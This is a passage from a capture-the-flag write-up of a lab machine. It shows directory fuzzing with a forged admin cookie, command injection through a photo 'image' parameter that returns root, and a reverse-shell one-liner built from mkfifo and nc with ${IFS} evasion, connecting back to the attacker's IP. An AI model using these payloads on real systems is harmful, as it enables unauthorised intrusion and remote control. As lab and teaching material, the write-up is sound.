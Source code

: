 
<br>

But tho the admin Dashboard was useless, so i brute forced again with the admin cookies :
```SH
m3dsec@local:~/misguidedghosts.thm$ fuf -c -u https://10.10.29.172:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -b 'login=hayley_is_admin'
https://10.10.29.172:8080/login                   [Status: 200, Size: 761, Words: 107, Lines: 29]
https://10.10.29.172:8080/dashboard               [Status: 302, Size: 219, Words: 22, Lines: 4]
https://10.10.29.172:8080/photos                  [Status: 200, Size: 761, Words: 107, Lines: 29]
https://10.10.29.172:8080/console                 [Status: 200, Size: 1985, Words: 411, Lines: 53]
```

<br>

Once Again We tripped Against an upload Form, i tested file upload vulnerability on it, but it always gave the same output everytime, so i start fuzzing, i tripped against the -1 as an input, and the application listed back all the files.
```SHS
m3dsec@local:~$ curl -s -k -b 'login=hayley_is_admin' 'https://10.10.29.172:8080/photos?image=-1' |grep -i '<pre>' -A4000
		  <pre>Dockerfile
app.py
cert.pem
key.pem
requirements.txt
start.sh
static
stop.sh
templates
...
```

And injectign id command throw back the user and group information :
```SH
m3dsec@local:~$ curl -s -k -b 'login=hayley_is_admin' 'https://10.10.29.172:8080/photos?image=;id' |grep -i '<pre>' -A4000
		  <pre>Dockerfile
app.py
cert.pem
key.pem
requirements.txt
start.sh
static
stop.sh
templates
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
...
```


<br>

We then tried to reverse a Shell :
```SH
m3dsec@local:~$ curl -s -k -b 'login=hayley_is_admin' 'https://10.10.29.172:8080/photos?image=rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i|nc${IFS}10.9.123.226${IFS}9991>/tmp/f'
```
